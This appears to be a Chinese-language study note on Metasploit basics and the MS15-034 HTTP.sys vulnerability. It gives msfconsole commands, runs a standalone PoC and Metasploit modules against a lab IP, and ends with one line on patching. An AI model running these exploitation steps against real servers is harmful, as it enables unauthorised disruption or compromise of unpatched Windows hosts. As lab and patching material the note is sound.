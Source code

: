 ```yaml
---
layout: default
title: ms15-034
---
```




# msf基本命令

## 进入、退出

```bash
cd /opt/metasploit-framework/
bundle exec msfconsole # 进入msf
quit # 退出msf
back # 返回上一级
# exit 退出bash终端、退出cmd终端
```

## 查看工作空间

```bash
workspace # 查看当前工作空间
workspace -a target1   # 新建
workspace -d target1   # 删除
workspace target1      # 切换
hosts # 主机列表
services # 服务列表
loot # 战利品
```

# 使用独立poc验证ms-15-034

```bash
# 网上找poc
# 理解原理了，可以改poc或者自己写poc
# poc使用和目标系统匹配的语言编写
cd /root/vulner/ms15-034/
# 修改poc 第5行IPaddress为目标IP
python2 cve-2015-1635.poc
# 这个poc是python2写的
```

# 使用msf利用ms15-034

```bash
cd /opt/metasploit-framework/
bundle exec msfconsole
search ms15-034
# exposure 批露
# disclosure 暴露
use 1
set rhosts 172.20.0.7
show options
run
back
search ms15-034
use 0
set rhosts 172.20.0.7
show options
run
```

# 给ms15-034安装补丁

> * 访问微软catalog update补丁平台》搜索ms15-034》下载
